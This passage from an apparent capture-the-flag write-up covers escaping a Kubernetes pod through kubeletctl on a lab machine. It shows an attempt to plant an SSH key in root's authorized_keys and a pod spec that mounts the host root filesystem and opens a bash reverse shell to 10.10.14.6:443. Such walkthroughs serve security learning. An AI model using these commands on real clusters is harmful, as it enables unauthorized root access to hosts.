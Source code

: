     oxdf@hacky$ kubeletctl exec "mkdir /mnt/root/.ssh/" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
    oxdf@hacky$ kubeletctl exec "echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' >> /mnt/root/.ssh/authorized_keys" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
    'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' >> /mnt/root/.ssh/authorized_keys
    

Looking closely, it seems to echo everything, including the `>>
/mnt/root/.ssh/authorized_keys` bit.

I played with `cat ` a bit as well and got the same results:

    
    
    oxdf@hacky$ kubeletctl exec "cat /etc/issue" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
    Debian GNU/Linux 9 \n \l
    
    oxdf@hacky$ kubeletctl exec "cat /etc/issue > /tmp/a" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
    Debian GNU/Linux 9 \n \l
    
    cat: '>': No such file or directory
    cat: /tmp/a: No such file or directory
    command terminated with exit code 1
    oxdf@hacky$ kubeletctl exec "cat /etc/issue | tee /tmp/a" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
    Debian GNU/Linux 9 \n \l
    
    cat: '|': No such file or directory
    cat: tee: No such file or directory
    cat: /tmp/a: No such file or directory
    command terminated with exit code 1
    

It’s treating `>` and `/tmp/a` as arguments for `cat`, not as redirection to a
file. The `|` has the same issue.

#### Shell

At this point I was really close to giving up. The only path I see to getting
a root shell is to write to the host file system, but nothing I could think of
would let me. Then I remembered what I did in Unobtainium. There, I was
launching the Alpine container, and if I didn’t give it a startup command, it
would launch and immediately die. So I gave it a command:

    
    
        command: ["/bin/sh"]
        args: ["-c", "sleep 300000"]
    

I’ll create a `evil-pod2.yaml` that’s a copy of the one above, but this time,
I’ll add a reverse shell as the command:

    
    
    apiVersion: v1
    kind: Pod
    metadata:
      name: 0xdf-pod2
      namespace: default
    spec:
      containers:
      - name: 0xdf-pod2
        image: nginx:1.14.2
        command: ["/bin/bash"]
        args: ["-c", "/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1"]
        volumeMounts:
        - mountPath: /mnt
          name: hostfs
      volumes:
      - name: hostfs
        hostPath:
          path: /